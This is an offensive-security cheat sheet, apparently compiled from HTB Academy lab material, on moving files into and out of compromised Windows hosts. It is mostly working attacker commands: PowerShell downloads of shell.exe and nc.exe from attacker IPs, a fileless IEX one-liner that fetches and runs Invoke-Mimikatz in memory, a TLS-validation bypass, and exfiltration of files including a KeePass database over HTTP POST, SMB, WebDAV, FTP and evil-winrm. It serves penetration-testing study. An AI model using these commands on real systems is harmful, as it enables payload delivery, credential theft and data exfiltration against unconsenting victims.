 # Windows

## Download

### Copy & Paste

This works by encoding the file as base64 and copying it to the destination and decode the string back to file. This might come in handy.

#### Attacker > Target

```bash
kali@kali $ cat <file> |base64 -w 0;echo
```

```powershell
PS C:\> [IO.File]::WriteAllBytes("<fullpath&name>", [Convert]::FromBase64String("<base64 contents>"))
```

#### Target > Attacker

```powershell
PS C:\> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

```bash
kali@kali $  echo <base64 contents> | base64 -d > hosts
```

> It is worth noting that the further steps are requried for file contents validation to ensure that the transferred file are moved witout any corruption.

```bash
kali@kali $ md5sum <file>
```

```powershell
PS C:\> Get-FileHash <file> -Algorithm md5
```

### PS File download

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\> #(New-Object Net.WebClient).DownloadFile('http://10.10.14.220/shell.exe','C:\Users\Public\Downloads\shell.exe')

PS C:\> (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\> #(New-Object Net.WebClient).DownloadFileAsync('http://10.10.14.220/shell.exe','C:\Users\Public\Downloads\shell.exe')
```

### Fileless Method

Downloads the payload and excecute it directly in memory using **Invoke-Expression** cmdlet 'IEX'

```powershell
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
PS C:\> # OR pipeline input
PS C:\> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Invoke-WebRequest | iwr | curl | wget

Invoke-WebRequest has multiple aliases such as iwr, curl, and wget.

```powershell
PS C:\> Invoke-WebRequest http://10.10.14.220/shell.exe -OutFile shell.exe
```

### Errors in PowerShell

1. If the following error occurs, bypass using `-UserBasicParsing.`

![Internet Explorer first-launch prevents the download](https://academy.hackthebox.com/storage/modules/24/IE\_settings.png)

```powershell
PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

2. SSL/TLS secure channel error which could be bypassed using following command.

> Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."

```powershell
PS C:\> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Server

On the **attacker**'s machine, create a smbserver using `impacket` package.

```bash
kali@kali $ sudo impacket-smbserver share -smb2support /tmp/smbsharepower
```

On the **target**, run:

<pre class="language-powershell"><code class="lang-powershell"><strong>C:\> copy \\&#x3C;ip>\share\nc.exe
</strong><strong>C:\> #copy \\10.10.14.220\share\nc.exe
</strong></code></pre>

**If Windows block unauthenticated guest.**

On the **attacker**'s machine, create SMB server with **user** and **pass**

```bash
kali@kali $ sudo impacket-smbserver share -smb2support /tmp/smbshare -user <user> -password <pass>
```

On the **target** machine, mount and copy the file.

<pre class="language-sh"><code class="lang-sh"><strong>C:\> net use n: \\&#x3C;ip>\&#x3C;share dir> /user:&#x3C;user> &#x3C;pass>
</strong>C:\> copy n:\nc.exe
</code></pre>

> Can try to copy the file directly using the `copy \\<ip>\share\nc.exe` command. but copying this command might result in error, try mount and copy instead.

### FTP Server

On the **attacker**'s machine, create a ftp server using Python3's `pyftpdlib` module.

```bash
kali@kali $ sudo python3 -m pyftpdlib --port 21
```

On the **target** machine, mount and copy the file.

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('ftp://<ip>/file.txt', 'ftp-file.txt')
```

## Upload

### PS uploads (Python uploadserver)

To upload file, we need a server.

On the **attacker**'s machine, create a upload server using Python3's `uploadserver` module.

```bash
kali@kali $ python3 -m uploadserver
```

On the **target** machine, run

```powershell
PS C:\> Invoke-FileUpload -Uri http://<ip>:<port>/upload -File C:\Windows\System32\drivers\etc\hostsp
```

### PS uploads (Web based)

**Attacker** creates a netcat listener.

```bash
kali@kali $ nc -lvnp 8000
```

**Target** sends file throught HTTP POST method.

```powershell
PS C:\> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

**Attacker** decodes the stream back to file.

<pre class="language-bash"><code class="lang-bash"><strong>kali@kali $ echo &#x3C;base64> | base64 -d -w 0 > hosts
</strong></code></pre>

### SMB Server

On the **attacker**'s machine, create a upload server using Python3's `wsgidav` module.

<pre class="language-bash"><code class="lang-bash"><strong>kali@kali $ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
</strong></code></pre>

> impacket-smbserver would also work

```
sudo impacket-smbserver a -smb2support . -username a -password a
```

> if the username and password is specified then run `net use \10.10.14.4\a /user:a a` to mount the folder and then share the file.

On the **target** machine, run

<pre class="language-shell-session"><code class="lang-shell-session"><strong>C:\> dir \\192.168.49.128\DavWWWRoot
</strong>C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
</code></pre>

> Notice that it this method the `impacket-smbserver` was not used due to the port445 restrictions. Feel free to use it if there is no restriction.

### FTP Uploads

On the **attacker**'s machine, create a upload server using Python3's `pyftpdlib` module. but this time `--write` attribute is specified to allow client (target) to upload files.

```bash
kali@kali $ python3 -m pyftpdlib --port 21 --write
```

On the **target** machine, run

```
PS C:\> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

### evil-winrm

connect using evil-winrm normally

```
evil-winrm -i 10.129.202.222 -u johanna -p 1231234!
```

After getting a shell type

```
*Evil-WinRM* PS C:\Users\johanna\Documents> download Logins.kdbx
```









## Resources

* Most of the commands and contents are from **HTB academy lab!**

